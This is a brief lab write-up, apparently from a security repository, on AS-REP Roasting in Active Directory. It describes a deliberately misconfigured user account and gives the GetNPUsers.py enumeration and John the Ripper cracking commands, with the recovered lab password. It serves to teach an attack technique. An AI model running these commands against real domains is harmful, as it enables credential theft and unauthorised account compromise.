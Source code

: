 # AS‑REP Roasting in Active Directory

## 🔍 Technique Overview

AS‑REP Roasting is a credential‑access technique where an attacker requests an AS‑REP (Authentication Service Response) for accounts that do **not** require Kerberos pre‑authentication, then cracks the encrypted portion offline to recover cleartext passwords.

- **MITRE ATT&CK ID:** [T1558.004 – AS‑REP Roasting](https://attack.mitre.org/techniques/T1558/004/)  
- **Tools Used:** GetNPUsers.py, John The Ripper

---

## 🏗️ Lab Misconfiguration

The user **Lucy** was configured with:

- **Pre‑authentication disabled** ('RequiresPreAuth' flag cleared)  
- A **weak password** ('$monique$1991$')  
- Member of **Domain Users** only

> In many environments, high‑value service or user accounts are left vulnerable by disabling pre‑authentication for legacy support or convenience.

---

## 🚨 Exploitation Steps

1. **Enumerate AS‑REP‑Roastable Users**  
  ```bash
    GetNPUsers.py mydomain.com/ -no-pass -usersfile users -dc-ip 10.10.1.200
  ```

2. **Crack the Hash Offline**
  ```bash
    john -w:/usr/share/wordlists/rockyou.txt hash
  ```
Recovered password: $monique$1991$

## Impact
Compromise of a domain user account without needing any prior credentials.

Once cracked, attacker can authenticate as that user and escalate further.

Often used as a low‑touch initial foothold in large AD environments.

